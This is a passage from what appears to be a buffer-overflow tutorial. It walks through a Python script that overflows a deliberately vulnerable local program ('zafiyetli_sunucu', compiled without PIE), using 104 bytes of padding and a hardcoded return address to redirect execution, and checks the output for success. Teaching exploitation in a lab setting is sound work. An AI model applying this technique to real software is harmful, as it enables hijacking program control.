 Then we write the stage where we check the outputs of the function we injected:

```python
 stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

    print("\n--- Output from Victim Program ---")
    print(stdout_output)
    print("--- Error Output from Victim (if any) ---")
    print(stderr_output)
    print("--- Exploit Completed ---")
    
    if "CONTROL TAKEN" in stdout_output:
        print("\n[+] Vulnerability successfully exploited!")
    else:
        print("\n[-] Exploitation failed.")
```

And when we run our exploitation code, we see that we have successfully injected the function.

*Successful Exploitation*

### Complete Exploitation Code

```python
import struct
import subprocess
import sys

# Name of the vulnerable program
VICTIM_PROGRAM = "./zafiyetli_sunucu"

# Static address we found in Step 1 that will NEVER CHANGE.
# You should write the address you found on your own system here!
HARDCODED_ADDRESS = 0x401166

PADDING_SIZE = 104

def main():
    print("--- [ATTACKER] Python Exploit (with Static Address) Started ---")
    
    try:
        p = subprocess.Popen([VICTIM_PROGRAM], stdin=subprocess.PIPE, stdout=subprocess.PIPE, stderr=subprocess.PIPE)
    except FileNotFoundError:
        print(f"[!] ERROR: '{VICTIM_PROGRAM}' not found. Did you compile the C++ code with -no-pie?")
        sys.exit(1)
        
    print(f"[*] Target address is known statically: {hex(HARDCODED_ADDRESS)}")
    
    # Create payload with FIXED address
    padding = b'A' * PADDING_SIZE
    overwrite_address = struct.pack("<Q", HARDCODED_ADDRESS)
    payload = padding + overwrite_address
    
    print(f"[*] Payload created as {len(payload)} bytes.")
    print("[*] Sending payload to victim program...")
    
    stdout_output_bytes, stderr_output_bytes = p.communicate(input=payload)
    
    stdout_output = stdout_output_bytes.decode('utf-8', errors='ignore')
    stderr_output = stderr_output_bytes.decode('utf-8', errors='ignore')

```